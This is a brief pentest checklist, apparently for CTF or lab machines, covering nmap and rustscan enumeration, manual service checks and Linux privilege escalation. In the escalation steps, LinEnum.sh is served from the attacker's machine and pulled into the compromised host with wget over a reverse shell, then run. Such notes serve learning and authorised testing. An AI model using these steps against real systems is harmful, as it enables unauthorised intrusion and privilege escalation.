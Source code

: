## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server python3 -m http.server 8080 to transfer the linEum.sh\
4.From the reverse shell, wget http://$myIP:8080 . to recieve linEum.sh\
5.Give access. chmod +x linEum and ./linEum\
 
